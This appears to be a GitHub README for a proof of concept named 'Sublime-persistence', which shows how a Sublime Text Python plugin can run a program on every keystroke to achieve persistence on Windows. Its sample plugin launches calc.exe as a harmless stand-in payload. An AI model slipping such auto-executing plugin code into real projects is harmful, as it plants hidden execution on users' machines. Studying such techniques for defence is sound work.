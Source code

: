 # Sublime-persistence
Windows persistence method that abuses sublime packages.

Sublime text allows the ability to create custom plugins written in python. 
An API reference is posted below.
https://www.sublimetext.com/docs/api_reference.html



```import sublime
import sublime_plugin
import subprocess


class OpenCalcOnModified(sublime_plugin.EventListener):
    def on_modified(self, view):
        subprocess.Popen('calc.exe', shell=True)```

In the above python script we define a class called 'OpenCalcOnModified' which invokes the on_modified function. 
When a keystroke is detected within the sublime text editor, the .POpen() method in the subproccess module executes calc.exe.  

![alt text](https://github.com/rootd4ddy/Sublime-persistence/sublime.png)


